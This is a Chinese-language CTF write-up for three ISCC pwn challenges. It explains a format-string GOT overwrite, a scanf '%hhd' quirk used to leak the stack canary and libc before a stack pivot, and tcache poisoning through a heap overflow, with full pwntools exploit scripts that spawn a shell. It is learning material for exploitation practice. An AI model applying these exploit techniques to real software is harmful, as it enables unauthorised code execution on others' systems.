

由于本人比较菜，同时学pwn的时间不是太久，因此iscc的很多堆还没有能力去做，只把比赛的栈题给做完了 赛后又做了一下unlink那道题。其他堆题目前还没有复现。（有一个格式化字符串太简单了，我就不写wp了）
sim_treasure
大致思路：
程序无限次执行格式化字符串漏洞，思路为泄露出函数的真实地址，然后利用libc库里的偏移得到libc基地址，然后加上system函数在libc库中的偏移，用printf把自己的got表改成system函数，然后输入参数/bin/sh即可获取shell。
EXP:
from pwn import *context.log_level = "debug" p=remote('123.57.69.203' ,7010 ) e = ELF('./b' ) libc = ELF('/home/hacker/Desktop/libc-2.27.so' ) payload = '%2$p' p.sendline(payload) p.recvuntil('\x78' ) leak=int (p.recv(8 ),16 ) print (hex (leak))payload='%8$p' p.sendline(payload) printf_got_addr=e.got['printf' ] payload=p32(printf_got_addr)+'%6$s' p.sendline(payload) printf_addr=u32(p.recvuntil('\xf7' )[-4 :]) libc=printf_addr-0x512d0 print ('libc_base--------->' ,libc)hook=leak-0x88 ret_addr=0x080483da ret_hook=ret_addr&0xffff bin_sh=0x0017e1db +libc system=0x0003d200 +libc low_offset=system&0xffff high_offset=(system>>16 )&0xffff print ('hook------------->' ,hex (hook))print ('low--------------->' ,hex (low_offset))print ('high-------------->' ,hex (high_offset))payload=p32(printf_got_addr)+p32(printf_got_addr+2 )+'%' +str (low_offset-8 )+'c%6$hn' +'%' +str (high_offset-low_offset)+'c%7$hn' p.sendline(payload) p.sendline('/bin/sh' ) p.interactive()
跳一跳
总结：
1、scanf函数的参数为%hhd时，可以输入-在不覆盖栈中数据的情况下，占据一个字节，配合%s可以泄露栈中任何一个内容。
2、根据以往的经验感觉没有什么核心利用点的时候，尽量把注意力都集中到新遇到的知识上，这道题我有想过找一些字符去实现在不覆盖栈中数据的情况下，但是没有找到合适的字符，从而放弃了这个思路，甚至尝试用爆破的方式来劫持执行流（不过最后失败了）。
保护策略：
程序分析：
这道题的关键点就一个，当scanf用%hhd的时候，-这个东西可以不覆盖栈中数据的情况下在栈中占一位，说的有点抽象，代码和效果如下。
for i in range (0x58 ): sleep(0.01 ) p.sendline('17' ) for i in range (0x6 ): sleep(0.01 ) p.sendline('-' ) for i in range (0x4a ): sleep(0.01 ) p.sendline('18' ) p.sendline('a' )

由上图可以发现存在-的地方没有被填入的垃圾数据所覆盖（0x7f4d1e038680依然存在）
原理如下：
scanf函数在格式化字符类型和输入字符类型不匹配的时候，不会把输入的字符写到栈上，也不会报错，而是继续运行
scanf(“%hhd”,a)
当输入的字符为数字时，才可以被写入栈中，如果是字母则会被定义为非法字符，则会停留在缓冲区导致后面即使出现数字也仅仅是停留到了缓冲区（因为a在缓冲区进不去，后面的数据也都进不去）
通过阅读scanf函数的源码发现（%d的情况），输入的数据是先到了缓冲区中，然后对输入的数据进行检查，如果是+或-或是数字则会把这个数据从缓冲区中接收，否则不接收（例如字母）。继续阅读scanf的源码发现检测到+和-时，指针向后移动了一位（并不读取+或-到栈上），并且此时程序会认为这个符号仅仅是来表示正负的，然后将继续从缓冲区中读取数据，直到遇到\n。
这样就造成了最开始说的bug，+和-通过了检查从缓冲区里被提取了出来，但是它让指针往后挪了一位，并没有被写入到内存里，从而达到了占位的目的。
如果是正号或者负号 则可以触发char_buffer_add
下面是对符号检查部分的代码
negative = 0 ; if (*s == L_('-' )) { negative = 1 ; ++s; } else if (*s == L_('+' )) ++s;
（本人只是一位大一的初学者，第一次进行scanf的源码调试（关于搭建源码调试环境的文章在这里 here )，如果上述有理解错误的地方，还请各位师傅斧正）
这个地方是可以简单验证一下，看看是否输入字符会把后面的数字卡在缓冲区。
代码如下：
#include <stdio.h> int main () { char buf [256 ]; scanf ("%hhd" ,buf); printf ("%s" ,buf); getchar(); gets(buf); return 0 ; }
如果只输入数字的话，getchar会把回车给读取，然后触发gets就可以再输入一次，效果如下：
如果先输入数字，再输入字符，再输入数字的话，则不会触发gets(因为字符和原本的回车都留在了缓冲区里，getchar并没有读取这个回车，导致了gets执行的时候碰到了回车，gets直接失效)，效果如下：
知道了这个原理，这道题基本就乱打了。先看一下栈里能利用的内容
发现里面有_start函数的地址，那用这个可以拿到程序基地址。还有个_setbuffer函数的地址，可以用它来匹配libc库，然后再泄露个栈地址，用于之后的栈迁移，最后就是把canary给泄露出来，用于最后的劫持执行流
大致思路：
我最开始泄露的是IO_2_1_stderr的地址，但是这样做的后果就是搜到了将近两百个版本的libc库，因此泄露setbuffer函数的真实地址。
泄露的思路提前计算好要泄露的位置，然后将这些位置布置成- 其他位置则填充成垃圾数据，如果是六字节的栈地址，则只填充六字节的-，另外两字节补成垃圾数据，避免让00截断%s。
得到泄露的内容之后就是一个简单的栈迁移，提前布置system函数以及参数在栈中，改写rbp，最后用leave;ret指令完成迁移获取shell。
EXP:
from pwn import *from LibcSearcher import *context(arch='amd64' ,os='linux' ,log_level='debug' ) def autofill_long_libc (target_vul,leak_addr ): obj = LibcSearcher(target_vul, leak_addr) libc_base = leak_addr - obj.dump(target_vul) sys_addr = libc_base + obj.dump('system' ) bin_sh_addr = libc_base + obj.dump('str_bin_sh' ) print ('libc_base---->' ,hex (libc_base)) return sys_addr, bin_sh_addr def autofill_local_libc (target_vul,leak_addr,libc ): libc_base = leak_addr - libc.symbols[target_vul] sys_addr = libc_base + libc.symbols['system' ] bin_sh_addr = libc_base + libc.search("/bin/sh" ).next () print ('libc_base---->' ,hex (libc_base)) return sys_addr,bin_sh_addr p=process('./a' ) libc=ELF('/lib/x86_64-linux-gnu/libc.so.6' ) p.recvuntil('Hello CTFer! Welcome to the world of pwn~\n' ) for i in range (0xa8 ): sleep(0.01 ) p.sendline('18' ) for i in range (0x6 ): sleep(0.01 ) p.sendline('-' ) '''leak libc_base''' for i in range (0x1a ): sleep(0.01 ) p.sendline('19' ) for i in range (0x6 ): sleep(0.01 ) p.sendline('-' ) '''leak base''' for i in range (2 ): sleep(0.01 ) p.sendline('120' ) for i in range (6 ): sleep(0.01 ) p.sendline('-' ) '''leak canary''' for i in range (0x3 ): sleep(0.01 ) p.sendline('21' ) p.send('a' ) a=p.recv() setbuffer_addr=u64(a[0xb7 :0xbd ].ljust(8 ,'\x00' ))-231 print ('setbuffer_addr-------------------->' ,hex (setbuffer_addr))base=u64(a[0xd7 :0xdd ].ljust(8 ,'\x00' ))-0x10a0 print ('base------------------------------->' ,hex (base))leak_stack=u64(a[0xdf :0xe5 ].ljust(8 ,'\x00' )) print ('leak_stack-------------------------->' ,hex (leak_stack))canary=u64(a[0xe8 :0xef ].rjust(8 ,'\x00' )) print ('canary------------------------------>' ,hex (canary))print (a)result=autofill_local_libc('setbuffer' ,setbuffer_addr,libc) sys_addr=result[0 ] bin_sh_addr=result[1 ] pop_rdi_addr=base+0x130b leave_addr=base+0x124a print (hex (bin_sh_addr))payload=p64(pop_rdi_addr)+p64(bin_sh_addr)+p64(sys_addr) payload=payload.ljust(0xd8 ,'a' ) payload+=p64(canary)+p64(leak_stack-0x1d0 -8 )+p64(leave_addr) p.sendline(payload) p.interactive()
unlink
保护策略：
漏洞分析
存在堆溢出，虽然题目是叫做unlink，但是我试了一下，似乎unlink做不出来（可能是我太菜了）。即使patchup成2.23的，等unlink之后，ptr=&ptr-0x18，再往fake_chunk写入数据，数据会覆盖掉stdin指针。导致程序无法再输入了。因此用unlink的方法就卡住了。
不过这道题是2.27的，因此可以利用溢出打tcache attack。
大致思路
先申请两个chunk，低地址的chunk作为溢出堆块。然后释放掉高地址的chunk，利用溢出修改tcachebin中chunk的fd指针（这个fd指针修改成哪，接下来申请的chunk的地址就在哪。不过由于从tcachebin中申请chunk时，会将其的bk指针的位置赋值成0，如果fd修改成了一个不可写的地址，程序在这里就会崩溃掉）
我们fd指针修改为cmd的地址
它位于bss段，是可写的。因此我们可以将它申请到bss段上，再往这个chunk里写入数据时，就修改了bss段上存储的chunk地址，将chunk地址改为free函数的got表，再对这个chunk进行修改，即可修改free的got表。
同时要考虑到修改完got表后，下一次输入的数据依旧再往got表里输入，这就意味着我们无法先修改free的真实地址为system，再传入/bin/sh**（因为下回传/bin/sh的时候，free的真实地址又被改成了/bin/sh）因此需要传参和修改got表同时进行 **。这道题因为got表中的free和strncmp是挨着的，所以我们可以劫持free的got表，往里面写入/bin/sh\x00和system的plt地址，此时字符串的开头则为/bin/sh\x00（也就是之后strncmp的第一个参数）。同时也将system的plt地址写入到了strncmp中，等到执行strncmp的时候，成功获取shell。
tools源码
EXP
from tools import *p,e,libc=load('a' ) debug(p,0x4009BD ) def add (index,lenth,content ): p.sendline('add' ) p.recvuntil('Index: ' ) p.sendline(str (index)) p.recvuntil('Size: ' ) p.sendline(str (lenth)) p.recvuntil('Data: ' ) p.sendline(content) def remove (index ): p.sendline('remove' ) p.recvuntil('Index: ' ) p.sendline(str (index)) bss_addr=0x6010B0 back_addr=0x400896 sys_addr=e.plt['system' ] free_got_addr=e.got['free' ] add(0 ,0x40 ,b'aaaa' ) add(1 ,0x30 ,b'bbbb' ) remove(0 ) remove(1 ) payload=72 *b'a' +p64(0x41 )+p64(bss_addr) add(0 ,0x40 ,payload) add(2 ,0x30 ,b'bb' ) add(3 ,0x30 ,p64(free_got_addr)) p.sendline(b'/bin/sh\x00' +p64(sys_addr)) p.interactive()